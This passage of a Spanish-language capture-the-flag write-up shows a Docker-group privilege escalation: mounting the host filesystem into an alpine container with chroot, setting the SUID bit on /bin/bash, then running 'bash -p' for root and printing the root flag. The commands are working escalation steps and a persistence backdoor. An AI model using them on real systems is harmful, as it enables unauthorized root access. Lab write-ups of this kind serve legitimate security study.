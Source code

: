 ```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Para desplegar el contenedor, el comando anterior está utilizando una imagen llamada *alpine*. Con `docker images` podemos ver si se encuentra descargada en el sistema:

```bash
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   5 months ago   5.53MB
```

Sí que está descargada. Corriendo el comando anterior, seriamos *root* en un contendor, **teniendo acceso a todo el sistema**. 

Como estamos en un contenedor, podemos **modificar los permisos** de la *bash* con `chmod u+s /bin/bash` para que luego al salirnos del contenedor podamos continuar teniendo acceso a la máquina como *root*. Ahora ya nos podemos salir y simplemente haciendo `bash -p` seríamos *root*.

### root.txt

Podemos encontrar la última *flag* en el *homedir* de *root*:

```bash
bash-5.1## cat /root/root.txt 
5ba5267e7361bcee645f5e7733d931f2
```





